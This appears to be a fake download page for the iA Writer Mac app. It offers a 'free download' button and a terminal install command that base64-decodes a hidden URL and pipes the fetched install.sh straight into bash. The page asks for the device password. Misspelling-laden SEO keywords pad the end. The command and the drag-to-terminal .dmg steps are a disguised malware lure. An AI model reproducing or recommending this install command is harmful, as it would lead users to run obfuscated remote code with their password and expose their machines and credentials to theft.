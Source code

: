 # iA Writer Mac Download – Clean Writing App for macOS

![iA Writer Logo](https://upload.wikimedia.org/wikipedia/en/9/95/IA_Writer_Logo.png)

> **Version:** iA Writer 6.0  
> **Updated:** July 2025  
> **Compatibility:** macOS Catalina and newer (including Apple Silicon M1, M2, M3)

---

## 📦 Download iA Writer for Mac

[![⬇️ Download Now](https://img.shields.io/badge/iA%20%20Writer-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/iawriter)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🖋️ What is iA Writer for Mac?

**iA Writer** is a minimalist Markdown-based writing application for macOS, built to help writers focus deeply on the text and eliminate distractions. Whether you're a novelist, screenwriter, student, or blogger, iA Writer provides a clean, distraction-free workspace that emphasizes clarity, simplicity, and writing flow.

Unlike typical word processors, iA Writer eliminates all clutter: no ribbons, menus, or formatting toolbars. Instead, it provides a beautiful writing canvas where **text is central**. Markdown syntax allows for easy formatting, and the preview mode lets you visualize your structure instantly.

iA Writer supports:

- **Focus Mode**: Dim surrounding text to highlight the current sentence or paragraph
- **Syntax Highlighting**: Shows adverbs, verbs, nouns, and other parts of speech to improve your writing
- **Seamless File Syncing** via iCloud and Dropbox across Mac, iPhone, iPad
- **Multi-format Export** to PDF, Word, and HTML
- **Custom Templates** for presentations, blogs, and manuscripts
- **Content Blocks**: Include files and images with `{{ }}` syntax for modular writing

With full macOS integration and support for Apple Silicon (M1, M2, M3), iA Writer is blazingly fast, lightweight, and stable. It’s a favorite among developers, authors, and anyone who values precision and aesthetics in writing.

---

## 🖼️ Screenshot

![iA Writer Mac Screenshot](https://cdn.macstories.net/001/2018-12-23-22-56-09.png)

---

## ✅ Features

- ✍️ Clean, distraction-free UI with Markdown support  
- 🔍 Syntax control and focus mode for improved writing clarity  
- ☁️ iCloud and Dropbox sync across devices  
- 📄 Exports to PDF, DOCX, HTML with custom templates  
- ⚙️ Fully native on macOS with Apple Silicon support  
- 🪶 Lightweight and privacy-focused – no tracking or telemetry  
- 🌗 Light & dark themes for day and night writing

---

## 💻 macOS Compatibility

- macOS Catalina (10.15) and later  
- Full support for Monterey, Ventura, Sonoma  
- Optimized for Apple M1, M2, and M3

---

## 🧠 Keywords

ia writer, 1a writer, ia writer app, ia writer for mac,
a1 writer, write ia, writter ia, ai writer mac,
ia writer free, ia writer free download, ia writer mac download,
ia writer macos, ia writer mac free download,
ia writer pro, ia writer 6, ia writer 6.0,
ia writer reddit, ia writer github, download ia writer mac
